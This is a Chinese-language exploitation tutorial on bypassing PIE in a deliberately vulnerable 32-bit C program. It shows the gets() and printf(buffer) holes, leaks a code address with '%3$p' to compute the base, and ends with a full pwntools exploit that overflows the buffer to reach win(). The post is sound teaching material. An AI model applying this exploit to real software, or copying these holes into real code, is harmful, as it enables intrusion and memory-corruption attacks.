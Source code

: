 ```yaml
---
title: '通过格式化字符串绕过 PIE'
date: '2023-08-22'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '无已知地址绕过 PIE'
authors: ['default']
---
```


## 0x01 源码

LINK

```c:source.c
#include <stdio.h>

void vuln() {
  char buffer[20];

  printf("What's your name?\n");
  gets(buffer);
  
  printf("Nice to meet you ");
  printf(buffer);
  printf("\n");

  puts("What's your message?");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

与上篇文章不同的是，这次我们没有得到任何一个函数的绝对地址，我们必须使用其它手段来泄漏它。

## 0x02 分析

```
$ ./vuln-32
What's your name?
%p
Nice to meet you 0xf7f3e000
What's your message?
hello
```

测试发现可以使用格式化字符串来泄漏地址。

## 0x03 利用

### 1x01 基础信息

和上次一样，我们首先设置好一些基本内容。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

### 1x02 泄漏 PIE

现在我们只需要泄漏地址就好了，我们可以在 `pwndbg` 里面尝试一些不同的偏移量来测试。

```
$ pwndbg vuln-32
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7fc6000 (nil) 0x565561d5 (nil) (nil)
What's your message?
hello
```

第 3 个看起来像一个函数的地址，让我们检查一下第 3 个泄漏值和基地址之间的差异。在格式化字符串泄漏的值之后的某个位置设置一个断点（在哪里并不重要）。

你也可以直接把断点下在泄漏的这个值上面，设这个断点只是为了能够让我们调试程序。

```
$ pwndbg vuln-32
$ r
What's your name?
%3$p
Nice to meet you 0x565561d5
[...]
$ b *0x565561d5
Breakpoint 1 at 0x565561d5
$ r
[...]
$ vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
0x56555000 0x56556000 r--p     1000      0 vuln-32
0x56556000 0x56557000 r-xp     1000   1000 vuln-32
[...]
```

我们可以看到基地址是 `0x56555000` ，泄漏的值是 `0x565561d5` 。因此，从泄漏的地址中减去 `0x11d5` 就会得到二进制文件的基地址。

<Tip>
  可以通过 `vmmap` 指令来查看程序运行的基地址。

  对于没有开启 PIE 的程序，直接用 `checksec` 也可以看到基地址。
</Tip>

```python
p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')
```

现在，我们只需要发送 payload 就可以了。

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

### 1x03 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

同样的思路，只是 64-bit。试试看 :)

LINK

